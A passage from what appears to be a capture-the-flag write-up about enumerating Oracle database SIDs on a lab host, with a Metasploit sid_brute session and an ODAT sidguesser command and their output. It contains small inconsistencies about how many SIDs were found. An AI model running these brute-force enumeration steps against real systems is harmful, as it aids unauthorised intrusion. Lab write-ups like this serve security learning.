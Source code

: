 First we need to find SID.

> **What is a SID?** The SID (Service Identifier) is essentially the database name, depending on the install you may have one or more default SIDs, or even a totally custom dba defined SID.

To find the SID we can use this module from Metasploit.

```bash
msf5 auxiliary(admin/oracle/sid_brute) > options

Module options (auxiliary/admin/oracle/sid_brute):

   Name     Current Setting                                         Required  Description
   ----     ---------------                                         --------  -----------
   RHOSTS                                                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    1521                                                    yes       The target port (TCP)
   SIDFILE  /usr/share/metasploit-framework/data/wordlists/sid.txt  no        The file that contains a list of sids.
   SLEEP    1                                                       no        Sleep() amount between each request.

msf5 auxiliary(admin/oracle/sid_brute) > set RHOSTS 10.10.10.82
RHOSTS => 10.10.10.82
msf5 auxiliary(admin/oracle/sid_brute) > run
[*] Running module against 10.10.10.82

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
 [+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID ''
[*] 10.10.10.82:1521 - Done with brute force...
[*] Auxiliary module execution completed
```

So we got 3 SID `XE` and `CLRExtProc`.

### Finding SID using ODAT

So we get the same SID we got from Metasploit too

```bash
root@kali:/opt/odat# python3 odat.py sidguesser -s 10.10.10.82 -p 1521
odat.py:52: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp

[1] (10.10.10.82:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...         
[+] 'XEXDB' is a valid SID. Continue...
```

### Finding Users Information
